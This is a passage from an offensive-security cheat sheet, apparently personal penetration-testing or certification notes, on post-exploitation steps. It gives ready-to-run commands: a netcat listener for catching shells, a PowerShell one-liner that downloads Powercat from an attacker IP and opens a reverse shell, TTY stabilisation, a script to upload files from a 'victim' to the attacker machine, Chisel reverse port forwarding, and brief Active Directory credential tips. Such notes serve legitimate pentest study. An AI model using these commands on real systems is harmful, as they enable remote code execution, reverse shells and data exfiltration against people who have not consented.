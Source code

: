 - then `upload netcat` if that doesn’t work - don’t try to use the target’s built in netcat since it probably won’t have the -e option.

Use this to catch shells, as it will give you an interactive shell for Windows targets right off the bat:

```shell
rlwrap -cAr nc -nvlp 1234
```
##### Powercat

```shell
powershell -e IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.151/powercat.ps1");powercat -c 192.168.45.151 -p 1234 -e powershell 
```
##### Stabilise shell

```shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl + Z 
stty raw -echo; fg

```
#### HTTP Upload script 

If all else fails when transferring files from the victim to the attacker machine.

```powershell

IEX(IWR http://IP:9999/PSUpload.ps1 -UseBasicParsing); Invoke-FileUpload -Uri http://IP:9998/upload -File <name>

```

https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1
#### Port Forwarding with Chisel

For your own sanity, just use ligolo-ng for pivoting, make your life easier, but it still doesn't have port forwarding so you might need chisel:

```shell
# Attacker machine
chisel server -p 9999 --reverse
# Victim machine
chisel client <IP>:9999 R:8000:127.0.0.1:8000
```
### Active Directory

Find credentials. Use credentials. Everything from the Web and Windows PrivEsc sections can apply here.

Try different protocols with netexec - **smb, winrm, rdp**. Check for winrm and rdp access even for random low-level users.
